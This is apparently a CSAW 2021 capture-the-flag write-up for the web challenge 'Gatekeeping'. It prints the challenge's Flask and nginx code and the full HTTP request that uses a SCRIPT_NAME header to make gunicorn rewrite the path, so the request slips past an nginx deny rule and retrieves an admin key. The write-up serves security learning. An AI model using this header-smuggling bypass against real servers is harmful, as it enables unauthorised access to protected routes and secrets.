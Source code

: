 ```yaml
---
layout: post
title: "Gatekeeping (Web 395) csaw21 writeup"
categories: ctf web gunicorn path_info nginx
---
```


## Gatekeeping (Web 395) CSAW21 writeup

At csaw 2021 we had an interesting task "Gatekeeping" created by itszn.

## Description

The task consisted of a website that imitated a ransomware site to decrypt your files after paying a ransom. We were given the code for the challenge in the form of a Docker container. The container had the server code, an encrypted file, and the server nginx config. The webserver was written in flask with the following code:

```python
import os
import json
import string
import binascii

from flask import Flask, Blueprint, request, jsonify, render_template, abort
from Crypto.Cipher import AES

app = Flask(__name__)

def get_info():
    key = request.headers.get('key_id')
    if not key:
        abort(400, 'Missing key id')
    if not all(c in '0123456789ABCDEFabcdef'
            for c in key):
        abort(400, 'Invalid key id format')
    path = os.path.join('/server/keys',key)
    if not os.path.exists(path):
        abort(401, 'Unknown encryption key id')
    with open(path,'r') as f:
        return json.load(f)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/decrypt', methods=['POST'])
def decrypt():
    info = get_info()
    if not info.get('paid', False):
        abort(403, 'Ransom has not been paid')

    key = binascii.unhexlify(info['key'])
    data = request.get_data()
    iv = data[:AES.block_size]

    data = data[AES.block_size:]
    cipher = AES.new(key, AES.MODE_CFB, iv)

    return cipher.decrypt(data)

# === CL Review Comments - 5a7b3f
# <Alex> Is this safe?
# <Brad> Yes, because we have `deny all` in nginx.
# <Alex> Are you sure there won't be any way to get around it?
# <Brad> Here, I wrote a better description in the nginx config, hopefully that will help
# <Brad> Plus we had our code audited after they stole our coins last time
# <Alex> What about dependencies?
# <Brad> You are over thinking it. no one is going to be looking. everyone we encrypt is so bad at security they would never be able to find a bug in a library like that
# ===
@app.route('/admin/key')
def get_key():
    return jsonify(key=get_info()['key'])

```

This code refers to the nginx config, which was also given:
nginx:

```nginx
server {
    listen 80;

    underscores_in_headers on;

    location / {
        include proxy_params;

        # Nginx uses the WSGI protocol to transmit the request to gunicorn through the domain socket 
        # We do this so the network can't connect to gunicorn directly, only though nginx
        proxy_pass http://unix:/tmp/gunicorn.sock;
        proxy_pass_request_headers on;

        # INFO(brad)
        # Thought I would explain this to clear it up:
        # When we make a request, nginx forwards the request to gunicorn.
        # Gunicorn then reads the request and calculates the path (which is put into the WSGI variable `path_info`)
        #
        # We can prevent nginx from forwarding any request starting with "/admin/". If we do this 
        # there is no way for gunicorn to send flask a `path_info` which starts with "/admin/"
        # Thus any flask route starting with /admin/ should be safe :)
        location ^~ /admin/ {
            deny all;
        }
    }
}
```

It seems like the challenge is to access the route `/admin/key` even though it is clearly blocked in the nginx config. This route should let us retrieve the key that we need to decrypt our encrypted file which contains the flag. Reading through the comments in the task, we see that `path_info` is mentioned, which is the environment variable that is used internally by the wsgi service to identify which path was requested. So if we can set this to `/admin/key` after passing through the nginx filter, we win.

### Failed attempts

attempting naive attacks using requests such as `GET /asd/../admin/key HTTP/1.1` does not work, they are successfully blocked by nginx.

### Solution

Looking through the nginx config, the line `underscores_in_headers on;` seems suspicious. Googling for this, and the 'path_info' mentioned in the comments, we find this blogpost: https://github.security.telekom.com/2020/05/smuggling-http-headers-through-reverse-proxies.html . Furthermore, reading through [nginx pitfalls](https://www.nginx.com/resources/wiki/start/topics/tutorials/config_pitfalls/), we find the following very interesting quote:

> If you do not explicitly set underscores_in_headers on;, NGINX will silently drop HTTP headers with underscores (which are perfectly valid according to the HTTP standard). This is done in order to prevent ambiguities when mapping headers to CGI variables as both dashes and underscores are mapped to underscores during that process.

To look at the headers that the server receives, we can modify it in a local installation as follows:

```python
@app.route('/test')
def get_key2():
    return jsonify(key=get_info()['key'])


@app.route('/asdf')
def asdf():
    headers = [f"{k}:{v}" for k,v in request.headers]
    header_str = '\n'.join(headers)

    env_st = str(request.environ)

    return f"{header_str}\n{env_st}\n\nend"
```

accessing `/asdf`, we can now see the environment and the headers. The environment is specifically interesting:

```python
{'wsgi.errors': <gunicorn.http.wsgi.WSGIErrorsWrapper object at 0xffffa5c66be0>, 'wsgi.version': (1, 0), 'wsgi.multithread': False, 'wsgi.multiprocess': True, 'wsgi.run_once': False, 'wsgi.file_wrapper': <class 'gunicorn.http.wsgi.FileWrapper'>, 'wsgi.input_terminated': True, 'SERVER_SOFTWARE': 'gunicorn/20.1.0', 'wsgi.input': <gunicorn.http.body.Body object at 0xffffa5c66bb0>, 'gunicorn.socket': <socket.socket fd=9, family=AddressFamily.AF_UNIX, type=SocketKind.SOCK_STREAM, proto=0, laddr=/tmp/gunicorn.sock>, 'REQUEST_METHOD': 'GET', 'QUERY_STRING': '', 'RAW_URI': '/asdf', 'SERVER_PROTOCOL': 'HTTP/1.0', 'HTTP_HOST': '127.0.0.1', 'HTTP_X_REAL_IP': '172.17.0.1', 'HTTP_X_FORWARDED_FOR': '172.17.0.1', 'HTTP_X_FORWARDED_PROTO': 'http', 'HTTP_CONNECTION': 'close', 'HTTP_USER_AGENT': 'redacted', 'HTTP_ACCEPT': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8', 'HTTP_ACCEPT_LANGUAGE': 'de,en-US;q=0.7,en;q=0.3', 'HTTP_ACCEPT_ENCODING': 'gzip, deflate', 'HTTP_UPGRADE_INSECURE_REQUESTS': '1', 'HTTP_SEC_FETCH_DEST': 'document', 'HTTP_SEC_FETCH_MODE': 'navigate', 'HTTP_SEC_FETCH_SITE': 'none', 'HTTP_SEC_FETCH_USER': '?1', 'HTTP_CACHE_CONTROL': 'max-age=0', 'HTTP_PATH_INFO': '/asdf', 'wsgi.url_scheme': 'http', 'REMOTE_ADDR': '', 'SERVER_NAME': '127.0.0.1', 'SERVER_PORT': '80', 'PATH_INFO': '/asdf', 'SCRIPT_NAME': '', 'werkzeug.request': <Request 'http://127.0.0.1/asdf' [GET]>}
```

We can see that when we send a header such as 'PATH_INFO', which I had done in this example, it will get translated internally to 'HTTP_PATH_INFO' Furthermore, when we look at the parsed headers, we will see that actually it will be then translated to 'PATH-INFO' with a dash. To investigate, I decided to check out the gunicorn implementation that is responsible for this. [In there](https://github.com/benoitc/gunicorn/blob/master/gunicorn/http/wsgi.py#L182), I then found the following snippet:

```python
#https://github.com/benoitc/gunicorn/blob/master/gunicorn/http/wsgi.py#L182
    if script_name:
        path_info = path_info.split(script_name, 1)[1]
```

This means, if we call the site with the path `/lol/asdf/admin/key`, and set the Header `SCRIPT_NAME: /asdf`, the path will be split into `['/lol','/admin/key']`, of which the second entry will be set as `path_info`, granting us access to the key! You might have noticed that we need a `key_id` to retrieve the correct key, but we can get this trivially by intercepting the request on the legitimate webserver when we try to get our encrypted file decrypted.

With some more requests we can get the flag:

```http
GET /lol/asdf/admin/key HTTP/1.1
Host: web.chal.csaw.io:5004
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
key_id: 05d1dc92ce82cc09d9d7ff1ac9d5611d
SCRIPT_NAME: /asdf
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```


-->
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Fri, 10 Sep 2021 23:46:27 GMT
Content-Type: application/json
Content-Length: 75
Connection: close

{"key":"b5082f02fd0b6a06203e0a9ffb8d7613dd7639a67302fc1f357990c49a6541f3"}
```

then change the local server decryption endpoint:

```python
# [...]
@app.route('/decrypt', methods=['POST'])
def decrypt():
    # info = get_info()
    # if not info.get('paid', False):
    #     abort(403, 'Ransom has not been paid')
    info = {"key": "b5082f02fd0b6a06203e0a9ffb8d7613dd7639a67302fc1f357990c49a6541f3"}

    key = binascii.unhexlify(info['key'])
    data = request.get_data()
    iv = data[:AES.block_size]

    data = data[AES.block_size:]
    cipher = AES.new(key, AES.MODE_CFB, iv)

    return cipher.decrypt(data)

# [...]

```
and get the flag.


## TLDR:

Sending the `SCRIPT_NAME: Z` header to a gunicorn server on a path `/abcZdef`, will result in the path `def` being requested.




[@r0bre](https://twitter.com/r0bre), 13.09.2021
